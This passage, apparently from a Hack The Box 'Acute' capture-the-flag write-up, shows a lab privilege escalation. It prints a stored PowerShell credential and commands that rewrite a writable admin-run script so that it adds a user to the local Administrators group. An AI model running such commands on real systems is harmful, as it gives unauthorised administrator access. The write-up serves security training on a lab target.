 ![image-center](/images/htb/htb_acute_wm_content.png){: .align-center}

So, we have the following file containing the **acute\jmorgan** credentials.

```powershell
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

Maybe this user has some interesting privileges. Let's check the **Administrators** group with `net localgroup administrators`.

![image-center](/images/htb/htb_acute_admin_1.png){: .align-center}

Awesome! It means that any command executed in this script will be executed as local administrator and given we have read/write access on it, we can modify it.

We could edit **wm.ps1** by replacing the current command, `Get-Volume`, to `net localgroup administrators edavies /add` and get more privileges. This can easily be done, even with the current restricted command set.

```powershell
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((Get-Content "c:\Users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','net localgroup administrators edavies /add') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $Creds

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock{C:\Users\imonks\Desktop\wm.ps1} -Credential $Creds
```
